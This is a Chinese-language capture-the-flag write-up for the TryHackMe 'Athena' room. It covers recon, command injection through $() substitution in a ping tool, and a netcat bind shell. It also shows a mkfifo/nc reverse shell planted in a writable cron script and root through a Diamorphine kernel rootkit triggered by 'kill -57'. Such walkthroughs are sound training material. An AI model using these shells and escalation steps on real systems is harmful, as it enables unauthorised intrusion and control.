# Athena

> 🚩 **Athena** — TryHackMe
>
> [👉 点击进入靶场房间](https://tryhackme.com/room/4th3n4)
>
---

### 1. 信息收集 (Recon)
执行端口扫描：
```bash
nmap -sC -sV 10.10.x.x
```
使用 Nmap 扫描目标时，我们可以发现有四个开放端口，每个端口运行不同的服务。端口 22 为 SSH，端口 80 为 HTTP，139/445 端口为 SMB。



执行目录爆破工具：
```bash
gobuster dir -u 10.48.155.161 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
看起来没有我们想要的目录。



访问网站时，我们只看到一个静态页面，没有可用的链接。


查看源代码，并没有什么值得关注。



查看共享目录。



将目录里的文件下载到本地后，我们看到管理员的消息，它指定的目录是 /myrouterpanel。



我们看到的是一个正在开发中的页面，一个用于通过服务器 ping 其他设备的工具。


### 2. user flag

通过提供有效的 IP 地址，比如 localhost，我们就能得到 ping 的结果。



结果会显示在新页面上。



通过尝试使用 `&`、`|`、`;` 将命令串联时，我们会得到一条消息：“Attempt hacking!”。因此，简单的命令链式注入在这里并不适用。




另一种注入命令的方法是使用命令替换。
> [👉 指令替换](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)

在命令替换中，它会捕获一个命令的输出，并将其作为输入传递给另一个命令使用。命令替换可以通过在命令中使用 `$(your_command)` 或 `$()` 来完成，因此在命令行被解析时，这些内容会先被执行，然后结果再被传递。

例如，在命令行中：
```bash
cat $(cat test)
```


我们执行后，五秒才得到结果。


我们现在可以注入命令，但至少 `|`、`&`、`;` 这些字符会被过滤。

大多数反向 shell 都包含这些字符，而 URL 编码和双重 URL 编码在这种情况下也不起作用。

所以，我们尝试一个简单的绑定 shell。
> [👉 在 Linux 上即使没有 nc 也能获得反向 shell](https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/)

```bash
nc -lp 4445 -e /bin/bash
```



为了方便，我们要升级 shell。
> [👉 将简单 shell 升级为完全交互式的 TTY](https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/)

```bash
SHELL=/bin/bash script -q /dev/null
```

```bash
stty raw -echo && fg
```


接下来打开一个新的终端，启动 Python HTTP 服务器，为目标用户提供有用的枚举工具。
```bash
python3 -m http.server 9000
```
在这种情况下，我们使用了 `linpeas.sh` 和 `pspy64`。

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
```
在交互式 shell 中下载工具。



我们没有找到关于 Linpeas 的有趣内容，但它会显示用户有定期运行某些任务（比如 cronjob），由 UID 1001 的用户执行。它是一个备份脚本，位于 `/usr/share/backup/backup.sh`。



通过检查文件，我们发现它归属于用户 `athena`。


通过查看权限，我们发现用户可以写入。


由于我们已经升级了 shell，可以进行 `vi` 编辑并写入：
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.48.93.133 4446 >/tmp/f
```


短时间后，反向 shell 连接建立，我们成为 `athena` 用户。接着，我们再次升级 shell。


查找 flag 时，我们发现它位于 `/home/athena/user.txt` 中。

### 3. root flag

在枚举用户 `athena` 时，我们立即注意到 `sudo -l` 的结果。我们能够通过加载位于 `/mnt/.../secret/venom.ko` 的特定内核模块来执行命令，而无需提供密码。`insmod` 是一个 Linux shell 命令，用于手动将内核模块插入并加载到正在运行的 Linux 内核中。内核模块是可以在内核中动态加载的代码片段，用于扩展其功能。



我们开启 Python HTTP 服务，将文件下载到本地。
```bash
受控机上:
python3 -m http.server 8001
攻击机上:
wget targetip:8001/venom.ko
```

让我们启动 Ghidra，看看它是什么。确保按照弹出的提示分析二进制文件。查看可用的函数，我们有：



查看字符串时，我们可以看到描述中提到 LKM rootkit 和作者 m0nad，所以我们知道正在处理一个 rootkit。接着我们搜索它是什么。



在 Google 上搜索 `lkm rootkit m0nad`，我们发现一个 GitHub 仓库 https://github.com/m0nad/Diamorphine。我们知道存在名为 `diamorphine_cleanup` 和 `diamorphine_init` 的函数，因此很可能它们是同一个 rootkit。

什么是 rootkit？
*术语 rootkit 是“root”和“kit”两个单词的结合。最初，rootkit 是一组能够使计算机或网络获得管理员级访问权限的工具集合。*

什么是 Diamorphine rootkit？
*Diamorphine 是一个针对 Linux 内核 2.6.x/3.x/4.x/5.x 和 ARM64 的 LKM rootkit。*

所以我们有一个 rootkit，仔细按照步骤操作：
```bash
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```
通过 `lsmod` 加载模块：
```bash
lsmod | grep venom
```
因此，一旦模块被加载，我们就应该能够与之交互。

查看 function graph，可以获取函数调用方式和调用时间的详细视图。


通过查看函数，我们可以看到如果 `ivar3 == 0x39`，则会调用 `give_root()`，而 `0x39` 的值为 57（十进制），这意味着 SIGNAL 想要授予 root 权限的值是 57。

所以让我们使用 57 发送一个 kill 信号，并使用任意进程 ID：
```bash
kill -57 0
```
检查 id。

你可以在 /root 中找到 root.txt。